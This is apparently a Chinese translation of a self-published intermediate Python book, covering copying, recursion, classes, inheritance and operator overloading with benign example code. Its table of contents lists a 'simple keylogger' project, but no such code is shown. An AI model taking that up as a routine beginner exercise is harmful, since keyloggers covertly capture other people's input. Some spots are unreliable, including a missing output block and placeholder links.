





# Python 编程进阶指南

7天掌握Python基础

Maurice J. Thompson

## 引言

我要感谢并祝贺你下载了这本书，*《Python编程进阶：7天掌握Python基础》*。

本书是Python编程进阶的终极指南。它将使你能在短短7天内掌握所有内容。

祝贺你达到这个水平，并欢迎来到我们Python 7天编程系列的第二版。希望你在初级版中玩得开心，并准备好学习更多内容！

如果你忘记了，Python是学习者或资深程序员的最佳编程语言，不仅因为其便捷性和易用性，还因为它使编码变得如此有吸引力和有趣。

在本教程的第二版中，我们将涵盖一系列主题，帮助你理解和执行复杂的Python编程项目。我的假设是你已经了解Python的基础知识，包括下载和安装重要的Python程序，以及使用基本的Python函数。否则，你需要回顾第一版，以确保你准备好进行中级编程。

让我们首先回顾一下本系列第一版涵盖的内容：

- 在主要操作系统上下载和安装Python
- 如何与Python交互
- 编写你的第一个程序
- 方法和函数——包括变量、字符串、列表、元组和字典
- 循环
- 用户自定义函数
- 初级Python项目

在本书中，我们将讨论以下内容：

- 浅拷贝和深拷贝
- Python中的对象和类——包括Python继承、多重继承等
- Python中的递归
- 调试和测试
- 斐波那契数列（定义）和Python中的记忆化
- Python中的参数
- Python中的命名空间和Python模块
- 适合中级开发者的简单Python项目

通过阅读本书，你将学到所有这些以及更多内容。让我们开始吧。
再次感谢你下载这本书。希望你喜欢它！

点击此处下载本书的有声书版本：
https://itunes.apple.com/us/audiobook/python-programming-your-intermediate-guide-to-learn/id1448033975

© 版权所有 2018 Maurice J. Thompson - 保留所有权利。

本文档旨在提供有关所涵盖主题和问题的准确可靠信息。出版物的销售基于出版商无需提供会计、官方许可或其他合格服务的理念。如果需要建议，无论是法律还是专业建议，都应咨询该领域的专业人士。

- 摘自美国律师协会委员会和出版商与协会委员会共同接受和批准的原则声明。

以电子方式或印刷格式复制、复制或传输本文档的任何部分均不合法。严禁录制本出版物，未经出版商书面许可，不得存储本文档。保留所有权利。

本文提供的信息据称是真实且一致的，对于因使用或滥用本文包含的任何政策、流程或指示而导致的任何责任，无论是疏忽还是其他原因，均由接收读者独自承担。在任何情况下，出版商均不对因本文信息直接或间接造成的任何赔偿、损害或金钱损失承担任何法律责任或指责。

相应作者拥有出版商未持有的所有版权。

本文信息仅供参考，具有普遍性。信息的呈现不附带合同或任何类型的保证。

所使用的商标未经任何同意，商标的发布未经商标所有者许可或支持。本书中的所有商标和品牌仅用于说明目的，归所有者所有，与本文档无关。

## 目录

- [引言](#)
- [浅拷贝，深拷贝](#)
  - [使用切片操作符](#)
  - [使用模块的copy深拷贝方法](#)
- [Python中的递归（递归函数）](#)
  - [递归的含义](#)
  - [递归的应用](#)
- [类和对象：理解其含义](#)
  - [定义一个类](#)
  - [构造函数](#)
  - [删除属性和对象](#)
- [Python中的继承](#)
  - [父类](#)
  - [子类](#)
  - [重写父类方法](#)
  - [函数 'Super()'](#)
  - [多重继承](#)
  - [运算符重载](#)
- [Python的特殊函数](https://example.com)
- [在Python中重载运算符 '+' ](https://example.com)
- [重载Python的比较运算符](https://example.com)
- [休息一下：调试和测试](https://example.com)
- [斐波那契数列](https://example.com)
- [Python中的记忆化](https://example.com)
- [斐波那契方块](https://example.com)
- [手动记忆化（手动实现记忆化）](https://example.com)
- [手动记忆化：对象](https://example.com)
- [手动记忆化：使用 'Global']](https://example.com)
- [装饰器](https://example.com)
- [Python中的参数](https://example.com)
- [可变函数参数](https://example.com)
- [Python函数参数的最佳实践](https://example.com)
- [关于参数你需要记住的事情](https://example.com)
- [使用 'none' 和文档字符串指定动态默认参数](https://example.com)
- [使用仅关键字参数强制清晰性](https://example.com)
- [Python 2 的仅关键字参数](https://example.com)

## Python中的命名空间

- 命名空间的含义
- 作用域
- 作用域解析

## Python模块

- 导入模块
- 内置Python模块

## 适合中级开发者的简单Python项目

1. 拼字游戏挑战
2. “空间站在哪里”项目
3. 创建一个简单的键盘记录器

## 结论

今天开始，我们将首先讨论浅拷贝和深拷贝。

## 浅拷贝，深拷贝

根据你已经了解的数据类型和变量知识，你知道Python与大多数其他编程语言不同，尤其是在复制和赋值简单数据类型（如字符串和整数）时。深拷贝和浅拷贝之间的区别在复合对象（包含其他对象的对象，如类实例和列表）中尤为明显。

下面的代码片段显示Y指向与X相同的内存位置。当给Y赋一个不同的值时，这种情况就会改变。在我们这里的情况下，如果你还记得我们学过的关于数据类型和变量的知识，y将获得一个单独的内存位置。

```
>>> x = 3
>>> y = x
```

然而，即使这种内部行为与C、Perl和C++等其他语言相比显得奇怪，可观察到的赋值结果也会符合你的预期。但是，如果你复制可变对象（如字典和列表），这可能会相当成问题。

Python只有在必要时才会构建真正的副本，即如果程序员（用户）明确要求。

你将熟悉在复制不同可变对象（即复制字典和列表）时可能发生的最关键问题。

让我们看看复制一个列表。

```
>>> colours1 = ["red", "green"]
>>> colours2 = colours1
>>> colours2 = ["rouge", "vert"]
>>> print colours1
['red', 'green']
```



上面的例子显示了一个简单的列表被赋值给colours1。接下来的步骤将涉及将colours1赋值给colours2。之后，一个新的列表被赋值给colours2。正如预期的那样，colours1的值没有改变，而且你可能已经知道，由于我们给这个变量赋了一个全新的列表，colours2被分配了一个新的内存位置。

```
>>> colours1 = ["red", "green"]
>>> colours2 = colours1
>>> colours2[1] = "blue"
>>> colours1
['red', 'blue']
```


然而，问题是当你更改colours2和colours1列表中的一个元素时会发生什么。在上面的例子中，一个新值被赋给了colours2的第二个元素。许多初学者会惊讶地发现colours1列表也“自动”改变了。你只能这样解释：除了它的一个元素之外，colours2没有进行任何新的赋值。

### 使用切片运算符

你可以使用切片运算符完全浅拷贝列表结构，而不会遇到上述任何副作用：

```
>>> list1 = ['a','b','c','d']
>>> list2 = list1[:]
>>> list2[1] = 'x'
>>> print list2
['a', 'x', 'c', 'd']
>>> print list1
['a', 'b', 'c', 'd']
>>>
```

然而，一旦列表包含子列表，你就会遇到同样的挑战，即只是指向子列表的指针。

```
>>> lst1 = ['a','b',['ab','ba']]
>>> lst2 = lst1[:]
```

下图完美地描绘了这种行为：



为其中一个列表的元素分配新值可确保没有副作用。当你倾向于更改子列表的单个元素时，问题就会出现。

```
>>> lst1 = ['a','b',['ab','ba']]
>>> lst2 = lst1[:]
>>> lst2[0] = 'c'
>>> lst2[2][1] = 'd'
>>> print(lst1)
['a', 'b', ['ab', 'd']]
```

下图显示了如果子列表的单个元素发生变化会发生什么：lst1 和 lst2 的内容都会被更改。



### 使用模块的深度拷贝方法

解决我们所描述问题的一个好方法是使用 *copy* 模块。该模块提供了 `copy` 方法，该方法能够实现任意列表的完全拷贝——即浅拷贝和深拷贝。

查看下面的示例脚本，它使用了上面的例子和这里的方法：

```
from copy import deepcopy

lst1 = ['a','b',['ab','ba']]

lst2 = deepcopy(lst1)

lst2[2][1] = "d"
lst2[0] = "c";

print lst2
print lst1
```

如果你保存我们的脚本并将其命名为 deep_copy.py，并且如果你使用 `python deep_copy.py` 调用你的脚本，你将得到以下输出：

```
$ python deep_copy.py
['c', 'b', ['ab', 'd']]
['a', 'b', ['ab', 'ba']]
```



## Python 中的递归（递归函数）

递归是一个源自拉丁语动词 'recurrere' 的形容词，意思是“跑回去”。这正是递归函数或递归定义所做的：它只是返回自身或“跑回去”。如果你做过一些数学题，读过一些关于编程的内容，甚至学过计算机科学，你一定遇到过阶乘，其算术定义如下：

```
n! = n * (n-1)!, if n > 1 and f(1) = 1
```

### 递归的含义

递归是一种编码或编程问题的技术，其中函数在其主体中一次或多次调用自身。通常，它会取回此函数调用的返回值。当函数定义满足递归条件时，你可以将此函数称为递归函数。

总之，Python 中的递归函数就是调用自身的函数。

到目前为止，你已经看到了许多调用其他函数的 Python 函数。然而，如下图所示的简单示例所示，函数完全有可能调用自身：

```
# Program by Mitchell Aikens
# No Copyright
# 2010

num = 0

def main():
    counter(num)

def counter(num):
    print(num)
    num += 1
    counter(num)

main()
```

如果你在 IDLE 中运行该程序，它将无休止地运行。只有通过按键盘上的 Ctrl + C 停止循环，你才能中断执行。这是一个无限递归的简单示例。实际上，一些用户报告说他们的 IDLE 系统出现故障，导致 Ctrl + C 引发的异常也开始循环。

每当发生这种情况时，你可以按 Ctrl+F6 重启 IDLE shell。

可以说，递归是实现与 while 循环相同结果的另一种方式。在某些情况下，这是完全正确的。然而，我们还有其他非常有效的递归用法，其中 `for` 和 `while` 循环可能并不理想。

就像循环一样，你需要注意递归是可以控制的。下面的示例描绘了一个受控的循环。

```
# Program by Mitchell Aikens
# No copyright
# 2012
def main():
    loopnum = int(input("How many times would you like to loop?\n"))
    counter = 1
    recurr(loopnum,counter)

def recurr(loopnum,counter):
    if loopnum > 0:
        print("This is loop iteration",counter)
        recurr(loopnum - 1,counter + 1)
    else:
        print("The loop is complete.")

main()
```

上面的示例使用参数或实参来控制递归次数。只需使用你已经了解的函数知识，然后遵循程序流程即可。

你可以在哪里实际应用递归？阅读下面的小节，它讨论了此函数的一些应用。

### 递归的应用

通常，递归是高级阶段学习的计算机科学主题。递归的主要用途是解决困难或复杂的问题，这些问题可以分解为更小的、相同的问题。

你并不完全需要递归来解决问题，因为许多递归可以解决的问题同样可以使用循环来解决。此外，与递归函数相比，循环可能更高效。递归函数通常比循环需要更多的资源和内存，这使得它们在许多情况下效率较低。有时，这种使用要求被称为“开销”。

话虽如此，我知道你现在可能会问自己，“既然我可以直接使用循环，为什么要浪费时间在递归上？”无论如何，你已经知道如何使用循环，而这看起来像是一堆工作。如果你这么想，我完全理解，尽管这本身是理想的。当你试图解决复杂问题时，递归函数是构建和编码的更快、更简单、更直接的方法。

你可以考虑以下“规则”：

- ✓ 如果你现在可以不用递归解决问题，函数只需返回一个值。
- ✓ 如果你现在不能不用递归解决问题，函数将问题切割成更小但相似的部分，然后调用自身以解决问题。

我们将使用我之前提到的一个常见算术概念来应用它：阶乘。
数字 'n' 的阶乘表示为 n!。
查看以下阶乘的基本规则。

n! = 1 if n = 0, and n! = 1 x 2 x 3 x...x n if n > 0
例如，数字 9 的阶乘如下：
9! = 1 x 2 x 3 x 4 x 5 x 6 x 7 x 8 x 9
下面是一个程序，它通过递归技术计算你（用户）输入的任何数字的阶乘。

```
def main():
    num = int(input("Please enter a non-negative integer.\n"))
    fact = factorial(num)
    print("The factorial of",num,"is",fact)

def factorial(num):
    if num == 0:
        return 1
    else:
        return num * factorial(num - 1)

main()
```

有一个主题是递归在生成器中也很有用。我们需要代码生成序列 1,2,1,3,1,2,1,4,1,2...

```
def crazy(min_):
    yield min_
    g=crazy(min_+1)
    while True:
        yield next(g)
        yield min_

i=crazy(1)
```

然后你可以调用 next (i) 来获取下一个元素。

点击此处下载本书的有声读物版本 https://itunes.apple.com/us/audiobook/python-programming-your-intermediate-guide-to-learn/id1448033975

## 类和对象：理解其含义

如第一版所述，Python 是一种面向对象的编程语言。因此，与强调函数的面向过程编程不同，它强调对象。
简而言之，对象是数据或变量以及作用于这些数据的函数或方法的集合。另一方面，类充当对象的蓝图。
类就像房子的原型或草图，包含有关门、窗户、地板等的所有细节。根据这些描述，你建造一栋房子；房子就是对象。
由于可以从单个描述建造许多房子，因此你可以从一个类创建许多对象。对象也可以称为类的实例；创建此对象的整个过程称为实例化。

### 定义一个类

让我们尝试定义一个类：
如果你记得没错，在 Python 中，函数以 `def` 关键字开头。另一方面，类则使用 `class` 关键字来定义。第一个字符串被称为文档字符串，它包含了类的简短描述。虽然不是强制性的，但建议添加。
看看下面这个简单的类定义：

```python
class MyNewClass:
    """This is a docstring. I have created a new class"""
    pass
```

类会创建一个新的局部命名空间，其中定义了所有属性。属性可以是函数或数据。
我们还有以 `__`（双下划线）开头的特殊属性。例如，`__doc__` 会给出该特定类的文档字符串。还存在其他不同的特殊属性，它们通常以双下划线（`__`）开头。一个很好的例子是 `__doc__`，它为我们提供了该特定类的文档字符串。
当你定义一个类时，它会立即创建一个同名的新类对象。这样的类对象使你能够访问各种属性，然后实例化该特定类的全新对象。

```python
class MyClass:
    "This is my second class"
    a = 10
    def func(self):
        print('Hello')

# Output: 10
print(MyClass.a)

# Output: <function MyClass.func at 0x0000000003079BF8>
print(MyClass.func)

# Output: 'This is my second class'
print(MyClass.__doc__)
```

运行程序将得到以下输出：

```
10
<function MyClass.func at 0x7feaa932eae8>
This is my second class
```

现在让我们创建一个对象：
正如你所看到的，你可以使用类对象来访问各种属性。同样，你也可以用它来创建该类的新实例对象（实例化）。创建对象的过程与创建函数调用并无不同。

```python
>>> ob = MyClass()
```

这样，你将创建一个名为 `ob` 的新实例对象。你可以使用对象名作为前缀来访问对象的属性。
属性可以是方法或数据。对象方法是属于该类的对应函数。任何被识别为类属性的函数对象都定义或描述了该特定类对象的一个方法。这仅仅意味着，因为 `MyClass.func` 是一个函数对象或类属性，所以 `ob.func` 将成为一个方法对象。

你一定注意到了类中函数定义里的参数 `self`，但我们刚刚调用方法 `ob.func()` 时没有传递任何参数，它仍然有效！原因很简单；任何时候对象调用它们的方法时，对象本身都会作为第一个参数传递。因此，`ob.func()` 最终会被转换为 `MyClass.func(ob)`。

通常，当你调用一个包含参数列表的方法时，你会发现它仍然与调用相应的或对应的函数相同，只是将方法的对象放在初始参数之前。因此，类中初始函数的参数必须是对象本身。按照惯例，这被称为 `self`，也可以用不同的名字命名（不过，我强烈建议你遵循这个惯例）。

此时，你应该已经精通实例对象、类对象、方法对象、函数对象，以及它们之间的区别了。

### 构造函数

在类中，以双下划线开头的特殊函数是类函数；我们称它们为特殊函数，因为它们具有特殊的含义。
其中一个应该引起你兴趣的函数是 `__init__()`。这是一个特殊函数，通常在每次实例化该类的新对象时被调用。在面向对象编程中，这种函数类型被称为构造函数；它通常用于初始化整个变量列表。

```python
class ComplexNumber:
    def __init__(self, r = 0, i = 0):
        self.real = r
        self.imag = i
    def getData(self):
        print("{0}+{1}j".format(self.real, self.imag))
# Create a new ComplexNumber object
c1 = ComplexNumber(2, 3)
# Call getData() function
# Output: 2+3j
c1.getData()
# Create another ComplexNumber object
# and create a new attribute 'attr'
c2 = ComplexNumber(5)
c2.attr = 10
# Output: (5, 0, 10)
print((c2.real, c2.imag, c2.attr))
# but c1 object doesn't have attribute 'attr'
# AttributeError: 'ComplexNumber' object has no attribute 'attr'
c1.attr
```

上面的例子展示了你如何定义一个新类来代表复数。它包含两个函数，包括用于初始化变量（默认为零）的 `__init__()` 和用于正确显示数字的 `getData()`。

在上述步骤中，你应该注意到一件有趣的事情，那就是你可以动态地创建对象的属性。对于对象 `c2`，创建并读取了一个新属性 `attr`。然而，这并没有为 `c1` 对象创建该属性。

### 删除属性和对象

你可以随时使用 `del` 语句删除对象的任何属性。要执行此操作，请在 Python shell 中尝试以下操作以获取输出。

```python
>>> c1 = ComplexNumber(2,3)
>>> del c1.imag
>>> c1.getData()
Traceback (most recent call last):
  ...
AttributeError: 'ComplexNumber' object has no attribute 'imag'

>>> del ComplexNumber.getData
>>> c1.getData()
Traceback (most recent call last):
  ...
AttributeError: 'ComplexNumber' object has no attribute 'getData'
```

你实际上也可以用 `del` 语句删除对象本身。

```python
>>> c1 = ComplexNumber(1,3)
>>> del c1
>>> c1
Traceback (most recent call last):
  ...
NameError: name 'c1' is not defined
```

实际上，情况比这要复杂得多。当你执行 `c1 = ComplexNumber(1,3)` 时，你会在内存中创建一个新的实例对象，并且 `c1` 名称与之绑定。

执行 `del c1` 时，这种绑定被移除，`c1` 名称从相应的命名空间中删除。然而，该对象继续存在于内存中，如果没有其他名称与之绑定，它稍后会被自动销毁。这种对未引用的 Python 对象的销毁也被称为垃圾回收。

正如你可能已经知道的，面向对象编程构建可重用的代码模式，以抑制开发项目中的冗余情况。面向对象编程实现可回收代码的一个好方法是通过继承，即一个子类利用另一个基类的代码。

为了了解更多，我们将介绍 Python 编程中继承的一些重要方面，包括学习子类和父类的工作原理、如何重写属性和方法、`super()` 函数的使用，以及如何使用多重继承。

## Python 中的继承

继承就是一个类使用另一个类中构建的代码。你可以从生物学的角度来看待继承：它类似于孩子从父母那里继承特定的特征。这意味着孩子可以继承父母的手指形状或颜色。同时，孩子也可以与父母共享姓氏。

被称为子类或派生类的类从基类或父类继承变量和方法。在这方面，可以想象名为 `parent` 的父类拥有 `finger_shape`、`color` 和 `height` 的类变量，名为 `child` 的子类将从其 `parent` 继承这些变量。

由于子类 `child` 从基类 `parent` 继承，`child` 类能够重用 `parent` 的代码，这使得程序员可以使用更少的代码行并减少冗余。

### 父类

也称为基类，父类构建了一个模式，子类或派生类可以基于此模式。父类允许你通过继承来构建子类，而无需每次都重复编写相同的代码。嗯，一个类可以成为父类，因此它们各自都是非常实用或实际的类，而不仅仅是模板。

例如，我们有一个通用的父类：`Bank_account`，它包含子类：`Business_account` 和 `Personal_account`。商业账户和个人账户之间的许多方法将是相同的——比如存取现金的方法——因此，这些可以放在 `Bank_account` 父类中。子类 `Business_account` 将包含非常特定于它的方法，可能包括收集业务记录和表格的方法，以及变量 `employee_identification_number`。

同样，一个 `Animal` 类可能包含像 `eating()` 和 `sleeping()` 这样的方法，就像子类 `Snake` 可能包含自己的方法，如 `hissing()` 和 `slithering()`。

让我们创建一个父类 `fish`，我们稍后将用它来构建不同类型的鱼作为其子类。除了特征之外，这些鱼中的每一条都将有名字和姓氏。

在这方面，你将创建一个名为 `fish.py` 的文件，并从 `__init__()` 构造函数方法开始。你将用以下内容填充它：

类变量：每个子类或‘鱼’对象都有的‘first_name’和‘last_name’。

```python
fish.py
class Fish:
    def __init__(self, first_name, last_name="Fish"):
        self.first_name = first_name
        self.last_name = last_name
```

你已经用‘Fish’字符串初始化了变量‘last_name’，因为你知道大多数鱼的姓氏都是这个。

现在让我们尝试添加其他方法：

```python
fish.py
class Fish:
    def __init__(self, first_name, last_name="Fish"):
        self.first_name = first_name
        self.last_name = last_name

    def swim(self):
        print("The fish is swimming.")

    def swim_backwards(self):
        print("The fish can swim backwards.")
```

如你所见，‘swim()’和‘swim_backwards()’方法已被添加到‘鱼类’中；这将使每个子类都能使用这些方法。

因为你将创建的大多数鱼被认为是硬骨鱼（意味着它们有骨质骨架），而不是被称为软骨鱼的具有软骨骨架的鱼，所以你可以在方法‘__init__()’中再添加几个属性，如下所示：

```python
fish.py
class Fish:
    def __init__(self, first_name, last_name="Fish",
                 skeleton="bone", eyelids=False):
        self.first_name = first_name
        self.last_name = last_name
        self.skeleton = skeleton
        self.eyelids = eyelids

    def swim(self):
        print("The fish is swimming.")

    def swim_backwards(self):
        print("The fish can swim backwards.")
```

创建父类将遵循与创建任何其他类类似的方法论——只是我们正在考虑子类一旦创建后将使用的方法类型。

### 子类

子类或子类是从父类继承的类。这意味着每个子类都将能够利用父类的方法和变量。例如，一个属于‘鱼类’子类的子类‘金鱼’将有机会使用在‘鱼类’中声明的‘swim()’方法，而不必自己声明它。

你可以将每个子类视为扮演父类的一个类的角色。这意味着如果你有一个被称为‘菱形’的子类，其父类名为‘平行四边形’，你可以说‘菱形’实际上是一个‘平行四边形’，就像‘金鱼’是一条‘鱼’一样。

第一个子类的行看起来与非子类有点不同，因为你必须确保父类作为参数传递给子类，如下所示：

```python
class Trout(Fish):
```

在这种情况下，类‘鳟鱼’是类‘鱼’的子类。这是显而易见的，因为单词‘Fish’包含在括号中。

当涉及到子类时，你可以选择添加更多方法、覆盖当前的父类方法，或者只是使用关键字‘pass’接受默认的父类方法，如下所示：

```python
fish.py
...
class Trout(Fish):
    pass
```

你现在可以构建一个对象‘鳟鱼’，而无需定义任何额外的方法。

```python
fish.py
...
class Trout(Fish):
    pass

terry = Trout("Terry")
print(terry.first_name + " " + terry.last_name)
print(terry.skeleton)
print(terry.eyelids)
terry.swim()
terry.swim_backwards()
```

你已经创建了一个名为‘terry’的对象‘鳟鱼’，它使用了‘鱼类’的每一个方法，即使你没有在子类‘鳟鱼’中定义这些方法。你只需要将‘terry’值传递给变量‘first_name’，因为所有其他变量都已初始化。

当你运行程序时，你会得到以下输出：

```
Output
Terry Fish
bone
False
The fish is swimming.
The fish can swim backwards.
```

现在我们将构建一个包含自己方法的额外子类。你将这个类命名为‘小丑鱼’；它的特殊方法将允许它与海葵共存——

```python
fish.py
...
class Clownfish(Fish):

    def live_with_anemone(self):
        print("The clownfish is coexisting with sea anemone.")
```

之后，你可以尝试创建一个对象‘小丑鱼’来看看这是如何工作的。

```python
fish.py
...
casey = Clownfish("Casey")
print(casey.first_name + " " + casey.last_name)
casey.swim()
casey.live_with_anemone()
```

运行程序将给出以下输出：

```
Output
Casey Fish
The fish is swimming.
The clownfish is coexisting with sea anemone.
```

根据输出，我们看到名为‘casey’的对象‘小丑鱼’可以使用‘鱼类’的方法‘swim()’和‘__init__()’，以及其子类方法‘live_with_anemone()’。

如果你尝试在对象‘鳟鱼’中使用方法‘live_with_anemone()’，你只会得到以下错误：

```
Output
terry.live_with_anemone()
AttributeError: 'Trout' object has no attribute 'live_with_anemone'
```

其背后的原因是‘live_with_anemone()’方法属于子类‘小丑鱼’，而不是父类‘鱼类’。子类继承其所属的父类方法，因此每个子类都可以在程序中使用这些方法。

### 覆盖父类方法

到目前为止，我们已经研究了使用关键字‘pass’继承‘鱼类’父类所有行为的‘鳟鱼’子类。我们还研究了继承父类所有行为并构建了自己独特方法的‘小丑鱼’子类。

但有时，你可能想要使用父类的一些行为，而不是全部。当你改变父类的方法时，你实际上是在覆盖它们。

在创建子类和父类时，你确实需要牢记程序的设计。这将使覆盖不会产生不必要的、冗余的代码。

你现在将创建父类‘鱼类’的一个子类‘鲨鱼’。由于你构建‘鱼类’类时主要是为了创建硬骨鱼，你需要为‘鲨鱼’类进行调整，而不是软骨鱼。在程序设计方面，如果你有不止一种非硬骨鱼，你可能需要为这两种鱼类型中的每一种创建单独的类。

与硬骨鱼不同，鲨鱼的骨架由软骨而不是骨头制成。鲨鱼也有眼睑，不能向后游。但通过下沉，鲨鱼可以向后移动。

因此，我们将覆盖构造函数方法‘__init__()’以及方法‘swim_backwards’。你不必改变方法swim()，因为鲨鱼可以游泳，因为它们是鱼。

看看下面的子类：

```python
fish.py
...
class Shark(Fish):
    def __init__(self, first_name, last_name="Shark",
                 skeleton="cartilage", eyelids=True):
        self.first_name = first_name
        self.last_name = last_name
        self.skeleton = skeleton
        self.eyelids = eyelids

    def swim_backwards(self):
        print("The shark cannot swim backwards, but can sink backwards.")
```

你刚刚覆盖了方法‘__init__()’中的参数（这些参数已被初始化）。因此，变量‘last_name’现在被设置为等于‘shark’字符串，变量‘skeleton’被设置为等于‘cartilage’字符串，变量‘eyelids’被设置为布尔值‘true’。类的每个实例也能够覆盖这里的参数。

‘swim_backwards()’方法现在打印的字符串与父类‘鱼类’中的不同，因为鲨鱼不能像硬骨鱼那样向后游。你现在可以构建一个子类‘鲨鱼’实例，它仍然能够使用父类‘鱼类’的方法‘swim()’。

```python
fish.py
...
sammy = Shark("Sammy")
print(sammy.first_name + " " + sammy.last_name)
sammy.swim()
sammy.swim_backwards()
print(sammy.eyelids)
print(sammy.skeleton)
```

运行此代码将给你以下输出：

### 函数 `super()`

该函数能帮助你访问在类对象中被重写的继承方法。使用此函数时，本质上是在子方法中调用父方法以使用它。例如，你可能想用特定功能覆盖父方法的某个方面，但随后又调用其他原始父方法来完成该方法。

在学生成绩评分程序中，你可能希望覆盖父类的 `weighted_grade` 方法，同时保留原始类功能。调用 `super()` 函数即可实现这一点。

此函数通常在 `__init__()` 方法内使用，因为这里最可能需要为子类添加一些独特性，然后完成来自父类的初始化。让我们尝试修改子类 `Trout`，看看它是如何工作的。

鳟鱼是天然的淡水鱼；因此，你需要在 `__init__()` 方法中添加变量 `water` 并将其设置为字符串 `'freshwater'`，同时保留其他父类的参数和变量：

```python
# fish.py
...
class Trout(Fish):
    def __init__(self, water = "freshwater"):
        self.water = water
        super().__init__(self)
...
```

如你所见，`__init__()` 方法在子类 `Trout` 中被重写，从而提供了与 `Fish` 父类中已定义的 `__init__()` 不同的实现。在 `Trout` 类的 `__init__()` 方法内，显式调用了 `Fish` 类的 `__init__()` 方法。

由于你已经重写了该方法，因此不再需要将 `first_name` 作为 `Trout` 参数传入。如果你传入了参数，则需要重置 `'freshwater'`。因此，你将在对象实例中调用该变量来初始化 `first_name`。

现在你可以调用初始化的父类变量，同时使用独特的子类变量。尝试在 `Trout` 实例中使用：

```python
# fish.py
...
terry = Trout()

# 初始化名字
terry.first_name = "Terry"

# 通过 super() 使用父类 __init__()
print(terry.first_name + " " + terry.last_name)
print(terry.eyelids)

# 使用子类重写的 __init__()
print(terry.water)

# 使用父类 swim() 方法
terry.swim()
```

输出：
```
Terry Fish
False
freshwater
The fish is swimming.
```

根据输出，子类 `Trout` 中的 `terry` 对象可以使用子类特有的 `__init__()` 变量 `water`，同时也能调用 `Fish` 父类中的 `last_name`、`eyelids` 和 `first_name` 等 `__init__()` 变量。因此，Python 内置的 `super()` 函数使你即使在子类中重写了这些方法的特定方面，也能很好地利用父类方法。

### 多重继承

一个类可以从多个父类继承方法和属性，这称为多重继承。它能够减少程序冗余，但也引入了一定程度的复杂性，更不用说歧义了——因此，你应该在整个程序设计的背景下谨慎使用。

我们将尝试创建一个子类 `CoralReef`，它继承自 `Anemone` 和 `Coral` 类。你可以在每个类中创建一个方法，并在子类 `CoralReef` 中使用关键字 `pass`，如下所示：

```python
# coral_reef.py

class Coral:
    def community(self):
        print("Coral lives in a community.")

class Anemone:
    def protect_clownfish(self):
        print("The anemone is protecting the clownfish.")

class CoralReef(Coral, Anemone):
    pass
```

`Coral` 类包含一个名为 `community()` 的方法，打印一行内容；`Anemone` 类包含一个名为 `protect_clownfish()` 的方法，打印另一行内容。然后我们将这两个类调用到元组继承中。因此，`CoralReef` 简单地继承自两个父类。

现在我们将实例化一个对象 `great_barrier`，如下所示：

```python
# coral_reef.py
...
great_barrier = CoralReef()
great_barrier.community()
great_barrier.protect_clownfish()
```

`great_barrier` 对象已作为 `CoralReef` 对象创建，并且实际上可以使用两个父类中的方法。运行程序将得到以下输出：

输出：
```
Coral lives in a community.
The anemone is protecting the clownfish.
```

如你所见，两个父类的方法在子类中被有效使用。

多重继承允许你在子类中使用来自多个父类的代码。如果一个类似的方法在多个父方法中定义，那么子类将使用其元组列表中声明的第一个父类的方法。

虽然你可以有效地使用多重继承，但需要非常小心，以免程序最终变得模糊不清，难以被其他程序员理解。

## 运算符重载

Python 中的不同运算符适用于内置类。对于不同类型，相同运算符的行为不同。例如，运算符 `+` 对两个数字执行算术加法，连接两个字符串，并合并两个列表。Python 的这个特性——使相同运算符根据上下文具有不同含义的能力——称为运算符重载。

当你将它们与用户定义的类对象一起使用时会发生什么？考虑下面这个试图模拟二维坐标系的类。

```python
class Point:
    def __init__(self, x = 0, y = 0):
        self.x = x
        self.y = y
```

现在你可以尝试运行代码并在 shell 中添加两个点。

```python
>>> p1 = Point(2,3)
>>> p2 = Point(-1,2)
>>> p1 + p2
Traceback (most recent call last):
  ...
TypeError: unsupported operand type(s) for +: 'Point' and 'Point'
```

如你所见，出现了很多错误。出现 `TypeError` 是因为程序不知道如何组合两个 `Point` 对象。不过好消息是，通过运算符重载，你可以教会 Python 这一点。但首先，我们需要了解特殊函数。

### Python 的特殊函数

以双下划线开头的类函数称为特殊函数。因此，它们不是普通的函数。其中一个函数是你非常熟悉的 `__init__()`。每次创建该特定类的新对象时，它都会被调用。

当你使用特殊函数时，类就与内置函数兼容了。

```python
>>> p1 = Point(2,3)
>>> print(p1)
<__main__.Point object at 0x0000000031F8CC0>
```

这个打印效果不好，但当你在类中定义 `__str__()` 方法时，你可以控制它的打印方式。因此，尝试将此添加到你的类中。

```python
class Point:
    def __init__(self, x = 0, y = 0):
        self.x = x
        self.y = y

    def __str__(self):
        return "({0},{1})".format(self.x,self.y)
```

现在我们将再次尝试 `print` 函数。

```python
>>> p1 = Point(2,3)
>>> print(p1)
(2,3)
```

